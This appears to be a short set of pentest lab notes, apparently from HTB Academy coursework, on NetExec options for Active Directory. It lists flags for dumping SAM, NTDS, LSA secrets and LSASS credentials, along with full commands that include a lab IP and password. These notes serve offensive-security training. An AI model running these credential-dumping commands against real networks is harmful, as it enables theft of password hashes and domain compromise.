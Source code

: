 
`--sam`
`--ntds`
`--loggedon-users`
`--rid-brute`

1. dumping cached lsass passwords
`-M lsassy`
2.  Dumping LSA  secrets (registery hives)
 `--lsa`


`local authentication (not involving the domain)`
```shell-session
netexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```

2.  run bloodhound ingestor #nxc-bloodhound
```
nxc ldap <ip> -u user -p pass --bloodhound --collection All
```

3. enumerate dc trusts
```
nxc ldap <ip> -u user -p pass --dc-list
```